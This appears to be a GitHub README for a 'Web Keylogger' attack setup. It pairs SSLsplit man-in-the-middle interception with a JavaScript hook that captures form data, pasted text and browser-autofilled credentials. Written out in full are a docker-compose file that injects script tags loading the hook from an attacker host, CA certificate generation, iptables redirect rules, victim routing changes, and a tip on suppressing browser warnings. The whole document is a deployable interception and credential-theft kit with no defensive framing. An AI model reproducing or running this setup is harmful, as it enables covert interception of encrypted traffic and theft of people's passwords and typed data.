

# Web Keylogger
Injection of hidden form and extraction of user's credentials if stored in browser.

## SSLSplit
[SSLsplit][1] is a tool for man-in-the-middle attacks against SSL/TLS encrypted
network connections.



## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage,
  * extracts user's credential by fakeing login form --- if credentials are stored for the domain, browser (Chrome, Firefox) injects them into hidden form

## docker-compose.yml

```
version: '3.5'

services: 
  sslsplit:
    image: nesatfit/sslsplit:latest
    build:
      dockerfile: ./docker/sslsplit/Dockerfile
      context: ./sslsplit
    container_name: keylogger_sslsplit
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    command:
      -k key/ca.key  
      -c key/ca.crt 
      -D 
      -K key/ca.key
      -P
      -l log/connections.log 
      -S log 
      -H "<script src='http://$HOOK_HOST:$HOOK_PORT_HTTP/hook' type='text/javascript'></script>" 
      -H "<script src='https://$HOOK_HOST:$HOOK_PORT_HTTPS/hook' type='text/javascript'></script>" 
      https 0.0.0.0 8443 
      http 0.0.0.0 8080
    network_mode: "host"
    volumes:
      - ./data:/data
    working_dir: /data
    restart: unless-stopped

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS 
    ports:
      - 8081:80
      - 8445:443  
      - 7000:7000
    restart: unless-stopped

  mongo:
    container_name: keylogger_mongo 
    image: mongo
    restart: unless-stopped
```

## Server Setup

```bash
$ mkdir -p data/{key,log}
$ vim docker-compose.yml # modify env variables to reflect your environment
$ openssl req -x509 -newkey rsa:2048 -nodes -keyout data/key/ca.key -out data/key/ca.crt -days 3650 -subj '/CN=EasyPi'
$ docker-compose up -d
```

```bash
# setup
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -N SSLSPLIT
iptables -t nat -A SSLSPLIT -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A SSLSPLIT -p tcp --dport 443 -j REDIRECT --to-ports 8443

# enable
iptables -t nat -A PREROUTING -j SSLSPLIT

# disable
iptables -t nat -D PREROUTING -j SSLSPLIT
```

## Client Setup

```bash
# ip route del to default via XXX.XXX.XXX.XXX
# ip route add default via YYY.YYY.YYY.YY

curl -k https://www.messenger.com
```

> ProTip: No warning dialog after importing `ca.crt` into system/browser.

## read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>

[1]: <http://www.roe.ch/SSLsplit>
